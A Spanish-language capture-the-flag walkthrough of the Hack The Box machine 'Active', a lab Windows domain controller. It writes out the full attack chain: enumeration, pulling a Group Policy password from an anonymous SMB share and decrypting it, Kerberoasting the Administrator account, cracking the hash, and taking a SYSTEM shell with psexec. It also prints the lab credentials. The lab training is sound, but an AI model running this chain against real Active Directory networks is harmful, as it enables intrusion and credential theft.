 ```yaml
---
layout: ../layouts/SavinoteLayout.astro
title: "HTB_Active"
date: 2023-07-10
slug: htb_active
---
```


# Active {-}

## Introduccion {-}

La maquina del dia se llama Active.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/kTyYkrK970w/0.jpg)](https://www.youtube.com/watch?v=kTyYkrK970w)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.100
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.100
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p53,88,135,139,289,445,464,593,636,3269,5985,9389,49667,49673,49674,49677,49689,49698 10.10.10.100 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?                       | Que falta?                |
| ------ | ---------- | ---------------------------------------- | ------------------------- |
| 53     | domain     | Domain controller rpcclient null session |                           |
| 88     | Kerberos   | asproasting attack                       | lista de usuarios validos |
| 135    | msrpc      |                                          |                           |
| 139    | netbios    |                                          |                           |
| 389    | LDAP       | Bloodhound                               | credenciales              |
| 445    | smb        | Null session                             |                           |
| 464    | kpasswd5?  |                                          |                           |
| 593    | ncacn_http |                                          |                           |
| 636    | tcpwrapped |                                          |                           |
| 3268   | ldap       |                                          |                           |
| 3269   | tcpwrapped |                                          |                           |
| 5722   | WinRM      | evil-winrm                               | credenciales              |
| 9389   | mc-nmf     | Puertos por defecto de windows           |                           |
| 47001  | msrpc      | Puertos por defecto de windows           |                           |
| 49152  | msrpc      | Puertos por defecto de windows           |                           |
| 49153  | msrpc      | Puertos por defecto de windows           |                           |
| 49154  | msrpc      | Puertos por defecto de windows           |                           |
| 49155  | ncacn_http | Puertos por defecto de windows           |                           |
| 49157  | msrpc      | Puertos por defecto de windows           |                           |
| 49158  | msrpc      | Puertos por defecto de windows           |                           |
| 49169  | msrpc      | Puertos por defecto de windows           |                           |
| 49171  | msrpc      | Puertos por defecto de windows           |                           |
| 49182  | msrpc      | Puertos por defecto de windows           |                           |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.100
smbclient -L 10.10.10.100 -N
smbmap -H 10.10.10.100 -u 'null'
```

Vemos que estamos frente de una maquina Windows 6.1 x64 que se llama **DC** en el dominio **active.htb** con un certificado firmado.
Añadimos el dominio al `/etc/hosts`.
Tambien vemos que podemos ver los recursos compartidos a nivel de red con un null session y que el recurso **Replication** esta en **READ ONLY**.
Listamos el directorio con **smbmap**

```bash
smbmap -H 10.10.10.100 -r Replication
smbmap -H 10.10.10.100 -r Replication/active.htb
```

Aqui vemos

- DfsrPrivate
- Policies
- scripts

Esto nos hace pensar a una replica de **SYSVOL**. Aqui buscamos si esta el `groups.xml`

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/*
```

## Vulnerability Assessment {-}

### Groups.xml {-}

Hemos encontrado el fichero `groups.xml`, lo descargamos

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml

mv Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml Groups.xml
cat Groups.xml
```

Aqui vemos el usuario y la contraseña encryptada.

```bash
gpp-decrypt "edBSHOwhZLTjt/Q59FeIcJ83mjWA98gw9gukOhjOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Ya tenemos la contraseña. Verificamos si las credenciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Es valida pero no tenemos el Pwn3d. Miramos si este usuario tiene acceso a mas registros compartidos a nivel de red.

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Hay unos cuantos mas. Miramos lo que hay en el registro Users

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users
```

Como solo vemos nuestro usuario y el administrator, y quel puerto 88 esta abierto, intentamos un Kerberoasting attack.

### Kerberoasting attack {-}

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

Aqui podemos ver que el usuario Administrator es kerberoasteable.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Copiamos el hash y intentamos romperlo con John

### Crack hash with John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña del usuario Administrator. Lo verificamos con crackmapexec

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Ademas de ser valido, vemos el famoso **(Pwn3d!)**
## Vuln exploit & Gaining Access {-}

### Conexion con psexec {-}


```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
whoami
#Output
nt authority\system
```

Aqui podemos leer las 2 flags.
